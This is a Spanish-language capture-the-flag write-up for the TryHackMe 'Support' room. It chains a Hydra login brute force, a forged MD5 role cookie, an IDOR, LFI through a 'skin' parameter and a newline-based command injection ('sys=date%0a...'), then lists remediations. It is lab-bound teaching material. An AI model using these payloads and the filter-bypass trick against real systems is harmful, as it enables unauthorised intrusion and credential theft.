# Support — mi write-up

Room de **TryHackMe** (medium). Web app: cadena de brute force → cookie MD5 → IDOR → LFI → command injection / RCE.  
Todo contra la IP de la máquina; no usé hostname.

Room: https://tryhackme.com/room/support

---

## Cómo empecé

Escaneo de todos los puertos:

```bash
sudo nmap -sS -Pn -p- -T4 <IP>
```



Salieron **22** (ssh) y **80** (http). Entré directo a `http://<IP>/`. Panel de login: **Support Operations Panel**. El placeholder del correo ya te da el usuario: `help@...`.



Enumeré directorios con **dirsearch**:

```bash
dirsearch -u http://<IP>/
```



Salió `/api.php` y `/dashboard.php` (los dos redirigen, hay que estar logueado), `/config.php` (0 bytes si lo pides directo) e `/info.php`. Sin credenciales no avanzas.

---

## Brute force del login (Hydra)

El formulario es un `POST` a `/` con `email` y `password`. El error es `Invalid credentials`. Fuerza bruta al usuario del placeholder con **rockyou**:

```bash
hydra -l help@... -P /usr/share/wordlists/rockyou.txt \
  <IP> http-post-form \
  "/:email=^USER^&password=^PASS^:Invalid credentials" -V -f
```



Password: **`snoopy`**.



Entras al dashboard como helpdesk, pero no hay gran cosa.

---

## Cookie `isITUser` (MD5)

`/api.php` responde **Access denied**.



En las cookies hay **`isITUser`** con valor `68934a3e9455fa72420237eb05902327` — es un MD5.



Lo tiré a **hashcat** (`-m 0` = MD5):

```bash
echo 68934a3e9455fa72420237eb05902327 > hash.txt
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Es el string **`false`**.



El panel decide si eres IT con esa cookie. Calculé el MD5 de `true` (sin salto de línea) y lo puse en la cookie:

```bash
echo -n "true" | md5sum
# b326b5062b2f0e69046810717534cb09
```



Con `isITUser=b326b5062b2f0e69046810717534cb09` ya entra `/api.php`.

---

## IDOR en la API

La API interna te dice que, como helpdesk, puedes consultar tu perfil: **`GET /user/3`**.

```json
{
  "email": "help@...",
  "2FA": false,
  "admin": false
}
```



Si tu id es 3, el 1 suele ser admin. Intercepté en Burp y cambié a **`GET /user/1`**:

```json
{
  "email": "specialadmin@...",
  "2FA": false,
  "admin": true
}
```



IDOR: no comprueba que el id sea el tuyo. Ya tienes el correo del admin. Falta la password.

---

## LFI en `skin`

En el dashboard hay un selector de tema. El parámetro es **`skin`**. Probé path traversal y leía PHP del servidor (el include concatena `.php`, así que pides el nombre sin extensión).

`/dashboard.php?skin=../index` — fuente del login. Incluye `/var/www/db.php` y ves cómo setea la cookie: `md5("true")` si eres admin, `md5("false")` si no.



`/dashboard.php?skin=../config` — `config.php` con la master password en claro:

```php
$MASTER_PASSWORD = 'support@110';
```



Probé `specialadmin@...` / `support@110` y no entraba. Tras varios intentos (y una pista): el login compara **sin el `@`**. Password que funciona: **`support110`**.

---

## Flag de admin

Login: `specialadmin@...` / `support110`. Dashboard de admin y la primera flag.



```
THM{I_AM_ADMIN999}
```

Abajo a la derecha hay un desplegable de **date / time**. Ahí va la RCE.

---

## Command injection (date / time)

Intercepté el `POST /dashboard.php`. En el body manda **`sys=date`**. El servidor ejecuta eso.

`&&`, `|`, `;` al lado de `date` estaban filtrados. Un salto de línea **`%0a`** (no `%Oa`) sí pasa: `date` se ejecuta en una línea y lo de después es otro comando. A partir de ahí el `;` ya vale para encadenar.

Listar `/home/ubuntu`:

```
sys=date%0acd /home/ubuntu; pwd; ls
```



Sale `user.txt`. Lo lees:

```
sys=date%0acd /home/ubuntu; pwd; cat user.txt
```



```
THM{GOT_THE_FLAG001}
```

---

## Mi cadena (resumen)

```
nmap -p- (22, 80) → login help@...
  → hydra rockyou → snoopy
  → cookie isITUser = md5("false") → md5("true")
  → /api.php → IDOR GET /user/1 → specialadmin@...
  → LFI ?skin=../config → MASTER_PASSWORD support@110
  → login admin con support110 (sin @) → THM{I_AM_ADMIN999}
  → POST sys=date + %0a → cat /home/ubuntu/user.txt → THM{GOT_THE_FLAG001}
```

---

## Qué usaría otra vez

- nmap `-p-`
- dirsearch (aunque el login ya te da el user)
- hydra `http-post-form` con el string de error
- Cookie-Editor + hashcat `-m 0` (MD5)
- Burp Repeater para IDOR y para el `sys=`
- LFI con el nombre **sin** `.php` si el include lo añade
- `%0a` cuando `;` / `|` / `&&` están filtrados

---

## Si lo arreglaran

- Rate limit / lockout en el login (rockyou no debería bastar)
- No meter un booleano de rol en una cookie MD5 que el cliente puede cambiar
- Autorizar `/user/{id}` contra la sesión, no solo “estás logueado”
- No incluir `skin` en un path local; y si acaso, whitelist
- No guardar `MASTER_PASSWORD` en un PHP leíble por LFI
- No pasar input del usuario a un comando del sistema (`sys=date`)

---

*Room educativo de TryHackMe*
